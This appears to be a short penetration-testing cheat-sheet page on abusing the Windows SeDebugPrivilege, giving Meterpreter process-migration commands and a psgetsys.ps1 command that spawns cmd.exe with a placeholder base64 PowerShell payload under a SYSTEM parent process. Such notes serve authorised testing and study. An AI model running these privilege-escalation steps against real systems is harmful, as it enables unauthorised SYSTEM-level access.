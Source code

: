```yaml
---
title: "SeDebugPrivilege"
date: 2024-8-2
tags: ["SeDebugPrivilege", "Windows", "Metasploit", "Reverse Shell"]
---
```


### Tools

{{< tab set1 tab1 active >}}Metasploit{{< /tab >}}
{{< tab set1 tab2 >}}psgetsys.ps1{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Inside meterpreter
ps winlogon
```

```console
# Explorer.exe is a good candidate
migrate <PID>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Import module
. .\psgetsys.ps1
```

```console
ImpersonateFromParentPid -ppid <PID> -command "c:\windows\system32\cmd.exe" -cmdargs "/c <POWERSHELL_3_BASE64>"
```

<small>*Ref: [psgetsys](https://github.com/decoder-it/psgetsystem)*</small>

{{< /tabcontent >}}

